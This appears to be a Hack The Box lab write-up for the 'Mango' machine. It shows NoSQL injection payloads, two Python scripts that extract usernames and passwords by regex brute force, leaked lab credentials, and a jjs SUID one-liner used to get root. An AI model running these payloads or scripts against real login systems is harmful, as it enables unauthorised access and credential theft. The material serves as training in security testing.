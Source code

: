 ```yaml
---
layout: single
title:  "HTB Writeup - Mango"
excerpt: "Mango is rated as a medium difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root."
header:
  teaser: "/assets/images/htb/mango/logo.png"
date: "2020-04-19"
classes: wide
categories:
- hackthebox 
- machines
tags:
- nosql 
- injection
- jjs 
- gtfobins
---
```


![](/assets/images/htb/mango/logo.png)  

Mango is rated as a medium difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root.

## Recon

A quick masscan + nmap scan gives us the following info:  

![](/assets/images/htb/mango/scan.png)  

There are 3 open ports, ```22, 80 and 443```. Credentials are needed for SSH access so let's proceed checking up ```port 80``` and ```port 443```.

## Webserver

Hitting up port 80 gives us a ```403 Forbidden``` response.

![](/assets/images/htb/mango/port_80.png)  

Adding ```mango.htb``` to ```/etc/hosts``` gives us the same response.

![](/assets/images/htb/mango/port_80_etchosts.png)  

Enumerating ```port 80```'s directories also gave nothing.

Skipping to ```port 443```, accessing the port leads us to this webpage.  

![](/assets/images/htb/mango/port_443.png)  

Enumerating ```port 443```'s directories and pages only led to this page.

![](/assets/images/htb/mango/port_443_analytics.png)  

It seems that ```https://mango.htb``` or ```https://10.10.10.162``` leads to nothing.

Going back to our nmap scan gives us a subdomain worth investigating.

```
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

Adding ```staging-order.mango.htb``` to ```/etc/hosts``` gives us a new webpage - ```Sweet & Juicy Mango``` login page.

![](/assets/images/htb/mango/port_443_staging.png)  

## NoSQL Injection

After manually testing a lot of SQLi payloads, it seems that the login page is not vulnerable to SQLi. After wasting a lot of time in the rabbit hole, I realized that there might be a reason why this machine is named ```Mango```.  

```Mango``` -> ```Mongo``` -> ```MongoDB``` -> ```NoSQL injection```  

After trying different NoSQL payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), I got an ```HTTP/1.1 302 Found``` response with this payload.

```
username[$ne]=admin&password[$ne]=admin&login=login
```

![](/assets/images/htb/mango/burp_injection.png)  

We can extract information using this payload template:  

```
username[$regex]=^(insert character guess here)&password[$ne]=test&login=login
```

The payload means that the server will return a ```302 response``` if the user value starts with the right character/s.

Automating this attack with a script makes it easier to leak the information we need.

```
import requests
import string

url = 'http://staging-order.mango.htb/'

user = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$regex]': '^{}'.format(user + c),
        'password[$ne]': 'abc',
        'login': 'login'
        }

      print('Trying: {}'.format(user + c))
      print('Current user: {}'.format(user))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          # additional check to break the script
          if c == '$':
              print('Leaked user: {}'.format(user))
              exit()
          user += c
          print(user)
```

Running this script gives us two users, ```admin``` and ```mango```.   

![](/assets/images/htb/mango/leak_admin.png)  

Note: **Edited the script to skip admin user**

![](/assets/images/htb/mango/leak_mango.png)  

After extracting the users, we need to edit the payload to extract passwords.

This will be the new payload template for password extraction.

```
username=admin&password[$regex]=^(insert password guess here)&login=login
```

This script can be used to extract the password for each user:

```
import requests
import string

url = 'http://staging-order.mango.htb/'

password = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$eq]': 'mango',
        'password[$regex]': '^{}'.format(password+c),
        'login': 'login'
        }

      print('Trying: {}'.format(password + c))
      print('Current pw: {}'.format(password))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          if c == '$':
              print('Leaked password: {}'.format(password))
              exit()
          password += c
          print(password)
```

User ```admin``` password leak:

![](/assets/images/htb/mango/admin_pw.png)  

User ```mango``` password leak:

![](/assets/images/htb/mango/mango_pw.png)  

Leaked credentials:  

```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

The credentials for mango user worked on SSH login.

![](/assets/images/htb/mango/mango_user.png)  

After checking the files of ```mango```, the file ```user.txt``` does not exist in the home directory. It seems that we still need to check for another user.

## PrivEsc to Admin 

Upon checking the list of users on ```/etc/passwd```, we can see that there is another user named ```admin```.

![](/assets/images/htb/mango/users.png)  

We can try to use the leaked credentials (```admin : t9KcS3>!0B#2```) for this user.

![](/assets/images/htb/mango/su_admin.png)  

Successfully pivoted to ```admin``` user.

## PrivEsc to Root

Executing [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) shows us that there is an SUID binary that can be exploited.  

![](/assets/images/htb/mango/suid.png)  

A quick google search about exploiting ```jjs``` leads us to another [GTFObins](https://gtfobins.github.io/gtfobins/jjs/) page.

![](/assets/images/htb/mango/gtfo_suid.png)  

According to GTFObins, we can execute system commands inside ```jjs``` with a one-liner command:

```
Java.type('java.lang.Runtime').getRuntime().exec('<insert commands here>').waitFor()
```  

Since ```jjs``` is SUID enabled, we can execute commands as ```root```. We can try to write an ```SSH public key``` to ```/root/.ssh/authorized_keys``` and login via SSH using our private key.

Overwriting ```/root/.ssh/authorized_keys``` by downloading our public key using ```wget```.

![](/assets/images/htb/mango/rooted.png)  

Successfully logged in as ```root``` using our private key.

-- 

![ar33zy](https://www.hackthebox.eu/badge/image/26849)


